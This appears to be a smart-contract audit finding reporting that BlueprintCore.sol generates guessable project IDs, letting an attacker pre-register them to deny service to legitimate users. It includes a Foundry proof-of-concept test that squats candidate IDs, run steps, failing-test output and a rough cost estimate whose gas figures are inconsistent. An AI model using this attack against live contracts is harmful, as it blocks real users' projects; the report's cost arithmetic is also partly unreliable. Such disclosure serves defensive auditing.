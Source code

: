 Sleepy Taupe Crocodile

Medium

# Project ID can be easily determined and can temporarily DOS users who want to create legitimate projects

## Summary
In BlueprintCore.sol, createProjectID() function will generate a unique project ID based on block timestamp, msg.sender and block.chainid. It is easily guessed - if a user has created a legitimate project once, malicious users can conduct a temporary DOS with ease.

## POC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console2} from "forge-std/Test.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";

contract BlueprintCoreDOSTest is Test {
    BlueprintCore public blueprint;
    
    function setUp() public {
        blueprint = new BlueprintCore();
    }

    function test_PredictAndBlockProjectIds() public {
        // First, let's see how createProjectID generates IDs
        address victim = address(0xB0B);
        
        vm.prank(victim);
        bytes32 legitimateId = blueprint.createProjectID();
        console2.log("Legitimate Project ID generated:");
        console2.logBytes32(legitimateId);

        // Analyze the ID generation pattern
        vm.prank(victim);
        bytes32 legitimateId2 = blueprint.createProjectID();
        console2.log("Second Legitimate Project ID:");
        console2.logBytes32(legitimateId2);

        // Try to understand the pattern and predict next IDs
        console2.log("Attempting to predict next IDs...");
    }

    function test_DOSVictimProjectCreation() public {
        address attacker = address(0xBAD);
        address victim = address(0xB0B);

        // First, let victim create a project to see the pattern
        vm.prank(victim);
        bytes32 victimId = blueprint.createProjectID();
        console2.log("Victim's first project ID:");
        console2.logBytes32(victimId);

        // Attacker tries to block potential future IDs
        vm.startPrank(attacker);
        
        // Try variations of the victim's ID
        bytes32[] memory potentialIds = new bytes32[](5);
        potentialIds[0] = bytes32(uint256(victimId)); // Exact same (should fail)
        potentialIds[1] = bytes32(uint256(victimId) + 1); // Next number
        potentialIds[2] = bytes32(uint256(victimId) - 1); // Previous number
        potentialIds[3] = bytes32(keccak256(abi.encodePacked(victim, block.number))); // Similar hash pattern
        potentialIds[4] = bytes32(keccak256(abi.encodePacked(victim, block.number + 1))); // Next block hash pattern

        for(uint i = 0; i < potentialIds.length; i++) {
            try blueprint.createProjectIDAndProposalRequest(
                potentialIds[i],
                "blocked",
                "attacker.com"
            ) {
                console2.log("Attacker blocked ID:");
                console2.logBytes32(potentialIds[i]);
            } catch {
                console2.log("Failed to block ID:");
                console2.logBytes32(potentialIds[i]);
            }
        }
        vm.stopPrank();

        // Now victim tries to create another project
        vm.prank(victim);
        bytes32 victimId2 = blueprint.createProjectID();
        console2.log("Victim's second project ID (if successful):");
        console2.logBytes32(victimId2);
    }}
```

## Steps to Run POC
1. Copy the above code into a file named `BlueprintyCoreDOSTest.t.sol`. Add it in `2025-03-crestal-network/crestal-omni-contracts/test`.
2. run `forge test --match-contract BlueprintCoreDOSTest -vvv`
3. This is the output: 
```solidity
Failing tests:
Encountered 2 failing tests in test/BlueprintCoreDOStest.t.sol:BlueprintCoreDOSTest
[FAIL. Reason: revert: projectId already exists] test_DOSVictimProjectCreation() (gas: 373449)
[FAIL. Reason: revert: projectId already exists] test_PredictAndBlockProjectIds() (gas: 66399)
```
4. The tests prove that it is easy to predict and block project ID creation. 

## Impact
As this will be on Base, gas fees will be much cheaper to conduct this attack. Even when mempool is private, it is very doable to conduct this attack as long as victim has created 1 legitimate project.

From running these functions, they consume the below amount of gas:
BlueprintCore::createProjectIDAndProposalRequest --> 123166 gas // ~123k gas
BlueprintCore::createProjectIDAndProposalRequest --> 57266 gas // ~57k gas for subsequent calls

Assume current base gas price = 0.13gwei
- Cost per malicious ID = 123,166 0.13 gwei = ~0.000016 ETH
- Cost per ID = (90,000 * 0.13 * 10^-9) * $1,900
            = 0.0000117 * $1,900
            = $0.02223 per ID
- Budget = $100
Total IDs possible = $100 / $0.02223
                   = ~4,498 IDs blocked

## LOC
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L255-L281



